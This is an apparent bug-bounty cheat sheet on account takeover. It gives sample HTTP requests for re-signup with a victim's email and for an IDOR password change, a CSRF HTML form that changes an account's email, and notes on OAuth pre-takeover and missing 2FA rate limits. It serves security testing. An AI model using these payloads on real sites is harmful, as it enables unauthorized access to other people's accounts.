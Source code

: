 # Account Takeover

## **Introduction**
Account Takeover (known as ATO) is a type of identity theft where a bad actor gains unauthorized access to an account belonging to someone else.

## **How to Find**
1. Using OAuth Misconfiguration
   - Victim has a account in evil.com
   - Attacker creates an account on evil.com using OAuth. For example the attacker have a facebook with a registered victim email
   - Attacker changed his/her email to victim email.
   - When the victim try to create an account on evil.com, it says the email already exists.

2. Try re-sign up using same email
   ```
   POST /newaccount
   [...]
   email=victim@mail.com&password=1234
   ```
   After sign up using victim email, try signup again but using different password
   ```
   POST /newaccount
   [...]
   email=victim@mail.com&password=hacked
   ```

3. via CSRF
   - Create an account as an attacker and fill all the form, check your info in the Account Detail.
   - Change the email and capture the request, then created a CSRF Exploit.
   - The CSRF Exploit looks like as given below. I have replaced the email value to anyemail@*******.com and submitted a request in the victim’s account.

   ```html
   <html>
   <body>
      <form action="https://evil.com/user/change-email" method="POST">
         <input type="hidden" value="victim@gmail.com"/>
         <input type="submit" value="Submit Request">
      </form>
   </body>
   </html>
   ```

4. Chaining with IDOR, for example
   ```
   POST /changepassword.php
   Host: site.com
   [...]
   userid=500&password=heked123
   ```
   500 is an attacker ID and 501 is a victim ID, so we change the userid from attacker to victim ID

5. No Rate Limit on 2FA

References:
- [Pre-Account Takeover using OAuth Misconfiguration](https://vijetareigns.medium.com/pre-account-takeover-using-oauth-misconfiguration-ebd32b80f3d3)
- [Account Takeover via CSRF](https://medium.com/bugbountywriteup/account-takeover-via-csrf-78add8c99526)
- [How re-signing up for an account lead to account takeover](https://zseano.medium.com/how-re-signing-up-for-an-account-lead-to-account-takeover-3a63a628fd9f)
